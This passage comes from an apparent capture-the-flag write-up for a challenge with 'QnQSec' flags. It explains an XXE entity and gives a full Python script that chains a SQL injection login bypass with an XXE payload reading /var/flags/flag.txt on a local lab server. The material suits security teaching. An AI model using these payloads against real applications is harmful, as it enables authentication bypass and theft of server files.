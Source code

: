 4. **Flag Location**: Based on Dockerfile, flag is at `/var/flags/flag.txt`

  
**The magic:**

- `test` is just a dummy name - could be anything

- The `[ ]` brackets contain our entity definition

- `&hacker;` triggers the entity substitution

- The file contents replace our entity reference



This creates a valid XML document that reads and displays the flag file contents.
  

## Time for Automation

Now comes the execution. I need to exploit both vulnerabilities in sequence because the application requires:

1. SQL injection to bypass authentication
2. XXE to read the flag file
  

Here's my complete exploit script:
```python
import requests

def exploit():
    print("starting exploit...")

    session = requests.Session()
    # Step 1: SQL Injection Login Bypass
    print("-" * 30)

    login_data = {"username": "' OR '1'='1' OR '1'='1", "password": "anything"}

    response = session.post(
        "http://localhost:9090/login.php", data=login_data, allow_redirects=True
    )

    print(response.status_code)

    # Step 2 : XXE
    xxe_payload = """<?xml version="1.0" ?>
    <!DOCTYPE test [<!ENTITY hacker SYSTEM "file:///var/flags/flag.txt"> ]>
			           <root>
    &hacker;
    </root>"""

    headers = {"Content-Type": "application/xml"}
    response = session.post(
        "http://localhost:9090/api.php", data=xxe_payload, headers=headers
    )
    print(response.text)

    if "QnQSec" in response.text:
        print("🚩Flag found!")


exploit()


```
